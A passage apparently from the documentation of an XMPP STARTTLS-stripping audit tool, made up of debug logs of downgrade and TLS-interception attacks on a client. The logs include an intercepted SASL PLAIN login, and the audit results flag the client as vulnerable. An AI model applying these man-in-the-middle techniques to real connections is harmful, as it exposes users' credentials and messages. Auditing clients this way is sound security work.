        - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        - DEBUG    - <Session 0x7f083196a7d0> [client] => [server][mangled] "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        - DEBUG    - <Session 0x7f083196a7d0> [client] => [server][mangled] performing outbound SSL handshake
        - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server][mangled] "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/></stream:features>"
        - DEBUG    - <Session 0x7f083196a7d0> [client] => [server]          "<iq type='get' id='purple9f914f80'><query xmlns='jabber:iq:auth'><username>tin</username></query></iq>"
        - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='13515446948282835507' from='jabber.ccc.de' xml:lang='en'>"
        - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<stream:error><invalid-namespace xmlns='urn:ietf:params:xml:ns:xmpp-streams'></invalid-namespace></stream:error>"
        - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          '</stream:stream>'
        - WARNING  - <Session 0x7f083196a7d0> terminated.

XMPP.StripFromCapabilities - strip starttls server annoucement
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        - DEBUG    - <ProtocolDetect 0x7f083196a990 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        - INFO     - <Session 0x7f083196a910> client ('192.168.139.1', 56890) has connected
        - INFO     - <Session 0x7f083196a910> connecting to target ('jabber.ccc.de', 5222)
        - DEBUG    - <Session 0x7f083196a910> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripFromCapabilities new: True>
        - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='12381525525258986322' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        - DEBUG    - <Session 0x7f083196a910> [client] <= [server][mangled] "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/></stream:features>"
        - DEBUG    - <Session 0x7f083196a910> [client] => [server]          "<iq type='get' id='purplecfe2ee07'><query xmlns='jabber:iq:auth'><username>tin</username></query></iq>"
        - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<stream:error><policy-violation xmlns='urn:ietf:params:xml:ns:xmpp-streams'></policy-violation><text xml:lang='' xmlns='urn:ietf:params:xml:ns:xmpp-streams'>Use of STARTTLS required</text></stream:error></stream:stream>"
        - WARNING  - <Session 0x7f083196a910> terminated.

XMPP.StripUntrustedIntercept - TLS Interception inbound and outbound with own certificate/key
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        - DEBUG    - <ProtocolDetect 0x7f083196aa90 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        - INFO     - <Session 0x7f083196a8d0> client ('192.168.139.1', 56892) has connected
        - INFO     - <Session 0x7f083196a8d0> connecting to target ('jabber.ccc.de', 5222)
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.UntrustedIntercept new: True>
        - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='10051743579572304948' from='jabber.ccc.de' version='1.0' xml:lang='en'><stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server][mangled] "<proceed xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server][mangled] waiting for inbound SSL Handshake
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server][mangled] performing outbound SSL handshake
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server][mangled] None
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='6938642107398534259' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><register xmlns='http://jabber.org/features/iq-register'/><mechanisms xmlns='urn:ietf:params:xml:ns:xmpp-sasl'><mechanism>PLAIN</mechanism><mechanism>X-OAUTH2</mechanism><mechanism>SCRAM-SHA-1</mechanism></mechanisms></stream:features>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "auth xmlns='urn:ietf:params:xml:ns:xmpp-sasl' mechanism='PLAIN' xmlns:ga='http://www.google.com/talk/protocol/auth' ga:client-uses-full-bind-result='true'>AHRpbgB4eA==</auth>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<failure xmlns='urn:ietf:params:xml:ns:xmpp-sasl'><not-authorized/></failure>"
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '/stream:stream>'
        - WARNING  - <Session 0x7f083196a8d0> terminated.

XMPP Audit results
^^^^^^^^^^^^^^^^^^

::

        - WARNING  - Ctrl C - Stopping server
        - INFO     -  -- audit results --
        - INFO     - [*] client: 192.168.139.1
        - INFO     -     [Vulnerable!] <class striptls.StripInboundTLS at 0x7f08319a6808>
        - INFO     -     [Vulnerable!] <class striptls.StripFromCapabilities at 0x7f08319a67a0>
        - INFO     -     [Vulnerable!] <class striptls.UntrustedIntercept at 0x7f08319a6870>

